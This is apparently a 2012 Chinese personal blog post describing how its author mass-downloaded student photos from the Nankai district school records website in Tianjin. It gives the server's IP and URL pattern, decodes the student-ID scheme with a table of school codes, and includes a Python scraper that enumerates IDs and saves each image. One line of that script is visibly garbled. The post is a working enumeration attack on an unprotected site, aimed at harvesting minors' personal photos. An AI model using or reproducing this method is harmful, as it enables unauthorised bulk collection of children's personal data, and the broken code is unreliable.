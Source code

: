 title:获得天津市南开区所有学生的头像
date:2012-09-02-03-57
---
只要是天津南开区的高中生都要上南开教务网上传照片和个人信息的，不过我上的时候感觉这个网站做得很差，还是ASP.NET做的。

看了一下发现图片没有做保护，可以直接被下载，只是URL有一些特征而已。于是我就把全区学生的照片全下载了


图像的地址是http://113.31.29.215:8081/Default3.aspx?imageId=学籍号

（后来想要得到当今高一学生，发现他们还没有上传..）

![](http://beordle.com/wp-content/uploads/2012/09/800-1.jpeg)![](http://beordle.com/wp-content/uploads/2012/09/800-2.jpeg)![](http://beordle.com/wp-content/uploads/2012/09/800.jpeg)

学籍号的组成： 例如090504999这个学籍号，说明了他是09届，0504号学校的第999个学生。

其中3~6位号码与学校的关系是

```
0501 南开中学

0502 一零九中学

0503 崇化中学

0504 南大附中

0505 二十五中学

0506 第九中学

0507 育红中学

0508 天大附中

0509 南大附中（原附中）

0510 四十三中学

0511 津英中学

0512 南开艺术中学

0513 天津中学

0514 六十三中学

0515 南开翔宇学校

0518 南开光明中学

0519 南开外国语中学

0521 华泽高中

0525 七十四中学（民办）

0528 南开艺术中学（艺术班）

0531 静文中学

0532 崇化新疆班
```

例如说南大附中09届第999号学生的学籍号是090504999,而想要看他的照片的话，

URL是http://113.31.29.215:8081/Default3.aspx?imageId=090504999

当然,实际上这个人是不存在的.所以才没有图像. 为了解决大批量下载的问题，我编写了如下的Python代码：

```
#coding:utf-8
#beordle
import urllib2,os
schoolname='南开中学'
school={};school[schoolname]=range(90501001,90501999)
try :
  os.makedirs(schoolname)
except: pass
def tryview(url):
  for i in range(0,9):
    try:
      data=urllib2.urlopen(url).read()
      return data
    except:
      pass
  else:
    return 'DOCTYPE'
x=0

for i in school[schoolname]:
  print i
  pic='http://113.31.29.215:8081/Default3.aspx?imageId=0'+str(i)
  a=tryview(pic)
  a= a[:a.index('10:
    x+=1
    print '发现第'+str(x)+'个人'
    f=open(schoolname+'\\'+str(i)+".jpg","wb")
    f.write(a)
    f.close()
```

>后记：现在我已经毕业，这个是我刚高二时写的，不保证可用，可能网站已经挂了，就算没挂，也不是24小时开启的，只是每年特定的月份会开